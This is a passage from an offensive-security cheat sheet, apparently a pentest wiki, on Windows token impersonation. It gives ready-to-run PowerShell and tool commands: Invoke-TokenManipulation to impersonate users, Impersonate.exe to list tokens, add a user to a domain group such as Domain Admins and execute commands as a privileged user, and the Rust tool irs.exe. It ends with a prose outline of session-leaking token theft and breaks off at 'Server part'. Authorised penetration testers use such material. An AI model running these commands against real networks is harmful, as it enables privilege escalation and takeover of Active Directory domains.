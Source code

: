 * Start a new process with a specific token

```powershell
#Token of a user
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user1"

#Token of a process
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

#### Token impersonation with command execution and user addition

[Blog here](https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/).

* List available tokens, and find an interesting token ID

```powershell
./Impersonate.exe list
```

* With only **SeImpersonatePrivilege**, if a privileged user's token is present on the machine, it is possible to run code on the domain as him and add a new user in the domain (and add him to the Domain Admins by default):

```powershell
./Impersonate.exe adduser <token_id> user1 Password123 <group_to_add_to> \\dc.domain.local
```

* With **SeImpersonatePrivilege and SeAssignPrimaryToken**, if a privileged user's token is presents on the machine, it is possible to execute comands on the machine as him:

```powershell
./Impersonate.exe exec <token_id> <command>
```

The same tool exists in Rust (not totally the same, the logic is a little bit different, looks at the [README](https://github.com/zblurx/impersonate-rs))

```powershell
#List all the process and their token
./irs.exe list

#Execute a command with the token from a process
./irs.exe exec --pid <PID> --command <command>
```

#### Token impersonation via session leaking

[Blog here](https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6). Basically, as long as a token is linked to a logon session (the **ReferenceCount != 0**), the logon session can't be closed, even if the user has logged off.\
`AcquireCredentialsHandle()` is used with a session LUID to increase the _ReferenceCount_ and block the session release. Then `InitializeSecurityContext()` and `AcceptSecurityContext()` are used to negotiate a new security context, and `QuerySecurityContextToken()` get an usable token.

* Server part
